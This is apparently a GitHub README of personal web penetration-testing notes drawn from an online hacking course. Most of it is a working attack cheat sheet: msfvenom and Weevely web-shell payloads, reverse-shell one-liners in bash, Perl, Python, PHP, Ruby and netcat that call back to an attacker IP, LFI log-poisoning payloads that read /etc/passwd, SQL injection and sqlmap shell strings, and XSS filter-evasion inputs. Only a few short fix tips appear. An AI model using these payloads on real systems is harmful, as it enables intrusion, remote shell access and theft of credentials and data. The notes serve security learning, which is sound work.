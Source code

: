 # Simple-Guide-to-Web-Pentest
some references i made after enrolled udemy course by Zaid Sabih (Learn Website Hacking / Penetration Testing From Scratch)

**Faisalfs10x                                        9/10/2019
webbugTIPS**

**(Information Gathering)**

- http://whois.domaintools.com = find owner target
- https://toolbar.netcraft.com/site_report?url = show technology used on target
- https://www.robtex.com = show comprehensive info target
- Discovering Websites On The Same Server = *bing ip:103.198.52.156 php?id*
- Find subdomain (subdomain.target.com) = git clone https://github.com/guelfoweb/knock.git
- Find file/directory in target website by [_dirb http://what.com.my /root/usr/share/wlist.txt_]. Try find [php.info, robots.txt, config.inc] for specific target info.
- Maltego - Discovering Websites, Hosting Provider & Emails, Servers, Domains & Files.

**File Upload Vulnerabilities – allow upload malicious file such as php shell**

- Metasploit Command: *msfvenom -p php/meterpreter/bind_tcp LPORT=4444 LHOST=192.168.169.137 > /root/shell1.php*
- Metasploit listener: *use exploit/multi/handler; set payload php/meterpreter/bind_tcp; set RHOST <target-ip>; set RPORT 4444; run*
- Upload Weevly shell. [*weevly generate p@55w0rd! shell.php*]. Open the url to activated.
- Connect to weevly terminal. [*weevly http://test.com.my/upload p@55w0rd!*]
- Intercept and modify parameter with burpsuite. 
- How2fix: check validation of format, recreate img and rename img.

**Code Execution Vulnerabilities – allow execution of OS command such as ping, ls, pwd.**

The following examples assume the hacker IP is 10.20.14 and use port 8080 for the connection. Therefore in all these cases you need to listen for port 8080 using the following command [*nc -vv -l -p 8080*]

- BASH = *bash -i >& /dev/tcp/10.20.14.203/8080 0>&1*
- PERL= *perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'*
Python = *python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'*
- PHP = *php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'*
- Ruby = *ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'*
- Netcat = *nc -e /bin/sh 10.20.14 8080*

**Local File Inclusion Vulnerabilities (LFI) – allow read file on same server, access file outside www dir.**

- Check for [*../../../../etc/passwd*] and copy the passwd hashes.
- Gain access method#1. Check for [*../../../../proc/self/environ*] and modify burpsuite Headers Tab>user Agent value from Mozilla to [*<?passthru(“nc -e /bin/sh attackerIP attackerPort”);?>*] and set listener to [*nc -vv -l -p 8888*] on terminal.
- Gain access method#2. Check for [*../../../../var/log/auth.log*] and do SSH by [*ssh “<?passthru(base64_decode(‘nc -e /bin/sh attackerIP attackerPort in base64ofgilberish’));?>”@attackerIP*] and set listener nc in terminal.

**Remote File Inclusion Vulnerabilities (RFI) – allow access file from other host.**
- How2fix: prevent RFI by disable allow_url_fopen & allow_url_include in /etc/php5/cgi/php.ini.

**SQLI Vulnerabilities - SQLi In Login Pages – use burpsuite to verify if it filters on client side or server side.**

- [WEAK codepractise] Discover POST try use [and, order by, ‘] and check for error handling. [123456’ and 1=1#]
- [WEAK codepractise] Try [(admin)/(admin’ #); aaa’ or 1=1 #]
- [BETTER codepractise] if client side filter, try modify parameter> password in burpsuite.

**SQLI Vulnerabilities - Extracting Database**

- Discover GET(viewatURL) by execute at URL using [*admin’ order by 1#*] # change to %23 to check how many columns are there in db.
- If there are 5 colums then use [*union select 1, database(), user(), version(), 5*]

**SQLI Vulnerabilities - Advanced Exploitation – blind sqli mean not show any error msg**
- Check manually for blind sqli in URL for TRUE [*1’ and 1=1%23*], FALSE [1’ and 1=0%23].
TRUE [1’ order by 1%23], FALSE [1’ order by 1000000000%23].
TRUE [1’ union select table_name,2 from information_schema.tables%23].
[1’ union select null,load_file(‘/etc/passwd’),null,null,null%23].
- *Sqlmap -u http://injectablelink.com.org* . use ‘--sql-shell’ parameter to run sql command.

**XSS Vulnerabilities**

- Try basic [*<script>alert(“testedXSS”)</script>*]
- If filter, try more [*<sCripT>alert(“testedXSS”)</scRipt>*]
- Refer *https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet*

